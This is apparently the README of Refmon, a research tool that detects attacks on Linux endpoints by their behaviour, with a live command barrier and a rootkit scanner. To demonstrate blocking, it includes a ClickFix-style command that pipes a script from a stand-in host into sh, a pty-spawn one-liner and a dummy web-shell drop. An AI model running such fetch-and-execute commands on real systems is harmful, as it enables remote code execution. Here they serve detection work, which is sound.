

# Refmon

Refmon (`v1.3`) detects, contains and explains attacks on endpoints and shared Linux servers by
judging **behaviour**, not signatures. It does not try to recognise an exploit, a lure or a malware
family. After an attack succeeds the attacker still has to act (run code, write files, connect out,
read secrets, persist, hide processes or modules), and those actions break the role of the process
that was exploited. Refmon watches for that consequence, so it is meant to catch attack types that
do not exist yet.



For every *story* of related events it asks three questions:

| Question | Fails when |
|---|---|
| **Origin** | the triggering input came from outside the trust boundary (web, mail, removable media, an inbound request, a downloaded package, agent input) |
| **Contract** | a process does something outside its role: a web worker starting a shell, an interactive shell running a pasted command, any process tampering with security tools, changing many files, fanning out, or launching an unsigned external file |
| **Effect** | it tries a dangerous action: fetch, hide, persist, escalate, lateral movement, exfiltration, tamper, credential or protected-asset access, mass change |

Three failed questions are a block, two a hold (ask the user, or pause and quarantine pending an
admin), fewer an allow. Underneath, a monotone *evidence calculus* (`v1.3`) turns the signals into
log-likelihood ratios (`L = L_0 + sum_q max w_j s_j`) with cost-derived Bayes thresholds
(`tau_hold = -4.94` nats, `tau_block = -3.91` nats) and a **Contract Gate** (never auto-blocking
without a contract violation unless an absolute override fires), while the classic 3/2/1 count stays
as the human-readable explanation and fallback. Overrides are absolute: a canary read, a labeled
process touching a protected asset, or tampering with Refmon itself.

Privacy is a design constraint, not a feature: content (commands, URLs, bodies, paths) is replaced
by per-device `hmac:sha256` fingerprints inside the first stage (`Observe`), raw events live in
memory for at most ten minutes, and only verdicts under pseudonyms leave a device. There is no
machine learning, only deterministic rules, counted baselines (Laplace surprisal with Good-Turing
maturity gating, dual-window Poisson burst tests, incident-frozen EMA and standardised CUSUM), and
cryptographically signed policies (Ed25519).

**Status.** Research reference monitor with an unprivileged user-space live barrier (`refmon serve`
and `refmon guard`), a six-engine read-only cross-view rootkit sensor (`refmon scan-rootkit`), and
full deterministic JSONL replay evaluation. No real malware, exploit or personal data is in the
repository (every scenario uses harmless, self-made stand-ins; see
[docs/phase-8-plan.md](docs/phase-8-plan.md) for kernel eBPF/LSM production sensors). Full
benchmark tables across `v1.0`--`v1.3` are in [docs/results.md](docs/results.md), and the complete
two-column LaTeX paper with formal proofs is in [documentation/main.tex](documentation/main.tex).

## Install

Python 3.12 or newer.

```bash
make install            # python3 -m venv .venv && .venv/bin/pip install -e ".[dev]"
```

or, without `make`: `python3 -m venv .venv && .venv/bin/pip install -e ".[dev]"`. The package needs
`pydantic`, `pyyaml` and `cryptography`; the tests also need `pytest`, `hypothesis` and `ruff`.

## Run the live barrier and web dashboard

Refmon can run completely in unprivileged user space (no `root` required), making it straightforward
to test and operate on shared Linux nodes and HPC clusters.

### 1. Start the background barrier daemon (`Terminal 1`)

```bash
make serve
# or with custom port / private state directory:
.venv/bin/python -m refmon.cli serve --host 127.0.0.1 --port 8765 --workdir ./my-refmon-state
```

On startup `serve` creates a private `0700` state directory (default `/tmp/refmon-live-<uid>`),
generates an Ed25519 keypair, signs `policy.yaml` in `block` mode, starts the background directory
watcher (`400 ms` poll), and prints a token-authenticated local URL:

```text
Refmon Live Security Barrier active on http://localhost:8765/#token=<api-token>
```

- **Local machine:** open the printed `http://localhost:8765/#token=...` link directly in your browser.
- **Remote SSH / HPC cluster node:** forward port `8765` from your laptop (`ssh -L 8765:127.0.0.1:8765 user@cluster.example.invalid`) and open the printed URL locally.

From the clean light-theme web interface you can:
- Switch policy enforcement modes live (`block`, `warn`, `observe`) and verify Ed25519 policy status.
- Run any of the **16 built-in live attack & benign scenarios** (ClickFix paste, base64 mail script, AI prompt-injection tool abuse, credential theft, server RCE, web shell drop, ransomware 55-file burst, canary hit, privilege escalation, lateral scan, DNS exfiltration, security tamper, hand-typed `curl` hold, benign echo, local script, trusted PyPI install) or click **Run All 16 Scenarios**.
- Trigger the **6-engine read-only rootkit scan** and inspect privacy-safe `hmac:...` logs and quarantined files.

### 2. Intercept commands before execution (`Terminal 2`)

With the daemon running (pass the same `--workdir` if you set a custom one), put `refmon guard` in
front of commands to evaluate Origin + Contract + Effect before the shell runs them:

```bash
# Benign pasted command -> ALLOW (executes cleanly)
.venv/bin/python -m refmon.cli guard --origin web -- "echo hello-cluster"

# ClickFix social-engineering lure -> BLOCK (stopped before execution, exit code 1)
.venv/bin/python -m refmon.cli guard --origin web -- "curl -fsSL https://bad.example.invalid/fix.sh | sh"

# Dry-run intent analysis without executing even on ALLOW (--no-exec) and JSON output (--json)
.venv/bin/python -m refmon.cli guard --no-exec --json --origin mail -- "python3 -c 'import pty'"
```

You can also test live file containment by dropping a dummy script (for example `shell.php`) into
the watched `<workdir>/sandbox/web_root/` directory: within `< 500 ms` the watcher quarantines it
into `<workdir>/quarantine/` with `0400` permissions and logs the story verdict.

## Run the six-engine rootkit scanner

```bash
make scan-rootkit
# or directly with options:
.venv/bin/python -m refmon.cli scan-rootkit --passes 2 --interval-ms 50
.venv/bin/python -m refmon.cli scan-rootkit --json
```

`scan-rootkit` inspects the host in read-only user space across six engines without requiring `root`:
1. **Dynamic linker hijacking** (`/etc/ld.so.preload`, `LD_PRELOAD`, `LD_AUDIT`, ephemeral `LD_LIBRARY_PATH`, deleted `.so` mappings).
2. **Fileless execution & memory injection** (`memfd:` execution, deleted `/proc/[pid]/exe`, `/dev/shm` or `/tmp` binaries, non-zero `TracerPid`, anonymous `rwxp` segments).
3. **Kernel module cross-view & taint decoding** (`/sys/module` minus `/proc/modules`, plus `/proc/sys/kernel/taint` distinguishing forced module loads from benign proprietary GPU/DKMS drivers).
4. **Process cross-view** (`/proc` readdir listing vs thread groups and own-UID ancestry, across `m >= 2` passes to suppress transient OS race churn).
5. **Network socket cross-view & sniffers** (`/proc/net/sockstat` `TCP: inuse` vs `/proc/net/tcp` entries, plus `IFF_PROMISC` packet-sniffer flags).
6. **External scanner bridge** (optional read-only integration with `unhide`, `chkrootkit` or `rkhunter` when `--with-external` is passed; missing tools are neutral).

## Run the tests

```bash
make test               # .venv/bin/python -m pytest -q
make all                # lint, tests, privacy audit, robustness matrix, publishability check
```

The suite contains over sixteen hundred tests (unit tests per rule, contract, effect, override,
rootkit sensor and live barrier; property tests with Hypothesis; replay of all 46 golden scenarios;
the privacy audit; the startup self-test) and finishes in under a minute.

## Reproduce every result

```bash
make reproduce          # .venv/bin/python scripts/reproduce.py
```

This generates the 879 variants of the active pre-registered seed (`654514256`) once, extracts git
tags `v1.0` to `v1.3`, replays the identical event stream in each, compares the four versions with
Wilson 95% confidence intervals and paired exact McNemar tests against `docs/evaluation/`, runs the
46 golden scenarios in every version, builds the coverage map, runs the privacy audit, the
publishability check and the test suite, and updates the generated blocks of
[docs/results.md](docs/results.md).

## Build the two-column LaTeX paper

The full publication manuscript (Abstract, Introduction, Background & Related Work, Methodology &
Mathematics with TikZ diagrams and pipeline figures, Algorithms & Experiments, Discussion, Future
Work, Conclusion, AI Disclosure, References, and Appendices A--G with mathematical proofs) lives in
[`documentation/`](documentation/):

```bash
make -C documentation pdf           # compiles documentation/main.pdf via pdflatex (twice)
make -C documentation overleaf-zip  # packages refmon-paper-overleaf.zip for Overleaf
```

## Layout

| Path | What |
|---|---|
| `src/refmon/` | `pipeline/` (`Observe`, `Tag`, `Link`, `Judge`, `Rates`), `calculus/` (Bayesian LLR, decay/Noisy-OR, Laplace/Good-Turing rarity, Poisson/CUSUM, DP/Bloom), `gate.py` & `contain.py` (reversible containment), `intent.py` (pre-exec command intent), `live.py` & `live_ui.py` (live barrier daemon & light-theme web UI), `rootkit.py` (6-engine rootkit scanner), `exposure.py`, `selftest.py`, `heartbeat.py`, `report.py`, `variants.py` |
| `tests/` | unit, property, live-barrier, rootkit and replay tests; `tests/golden/` has the 46 scenarios (`Sxx.events.jsonl`, `Sxx.expected.json`) |
| `scripts/` | `reproduce.py`, `generate_variants.py`, `dump_matrix.py`, `compare_versions.py`, `check_publishable.py` |
| `docs/` | `results.md` (final tables), `refmon_pipeline.jpg`, `design-decisions.md` (A1 to A58+), `progress.md`, `review-list.md`, `variant-seeds.md`, `v1.x-evaluation.md`, `phase-8-plan.md` |
| `documentation/` | `main.tex`, `main.pdf`, `references.bib`, `Makefile`, `figures/` (two-column LaTeX paper and full mathematical proofs) |
| `CLAUDE.md` | the specification: architecture, golden catalog, evidence calculus (C11), coverage map (C13). Tests verify weights and coverage directly against it |

Policy and administration CLI subcommands:
`refmon keygen | init-policy | sign | verify | learn | approve | apply | audit | scan-rootkit | serve | guard`.

## Versions

`v1.0` is the frozen baseline after Phase 7; each subsequent tag (`v1.1`, `v1.2`, `v1.3`) modifies
structural rules in response to documented findings (`docs/review-list.md`) and is evaluated on a
pre-registered variant seed ([docs/variant-seeds.md](docs/variant-seeds.md)). In `v1.3` (monotone
Bayesian calculus), active containment on malicious variants reaches **98.7%** (`625/633`, blocked
outright **76.8%**) at a **2.0%** false-block rate on neutral benign mutations, with **46/46**
golden scenarios and **16/16** live barrier scenarios matching expected verdicts.
